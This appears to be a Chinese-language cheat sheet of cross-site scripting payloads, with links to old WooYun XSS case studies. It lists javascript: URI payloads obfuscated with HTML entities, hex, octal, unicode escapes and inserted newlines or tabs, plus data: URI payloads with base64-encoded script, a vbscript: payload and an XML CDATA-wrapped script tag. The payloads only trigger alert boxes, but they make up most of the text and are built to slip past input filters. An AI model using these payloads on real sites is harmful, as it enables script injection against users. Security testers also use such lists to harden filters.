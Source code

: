 更多的XSS学习资料请参考以前乌云上的一起学XSS实战案例
[一起学XSS_page2](https://wy.zone.ci/searchbug.php?q=%E4%B8%80%E8%B5%B7%E5%AD%A6xss&page=1)
[一起学XSS_page1](https://wy.zone.ci/searchbug.php?q=%E4%B8%80%E8%B5%B7%E5%AD%A6xss&page=2)

## URI中执行javascript和data类payload

javascript:

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

//将 "javascript:" 利用hex或8进制编码
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

//javascript中加入特殊字符 换行 制表符 
java%0ascript:alert(1)   - 换行符 (\n)
java%09script:alert(1)   - 制表符 (\t)
java%0dscript:alert(1)   - 换行 (\r)

//使用转义字符
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

//使用换行符%0a
`javascript://%0Aalert(1)`
`javascript://anything%0D%0A%0D%0Awindow.alert(1)`
```

data协议的XSS:

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

vbscript协议XSS 只能在IE浏览器执行

```javascript
vbscript:msgbox("XSS")
```

## 特定文件名后缀的XSS

**注意** ：此处使用 XML CDATA 部分，以便 JavaScript payload不会被视为 XML 标记。

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```
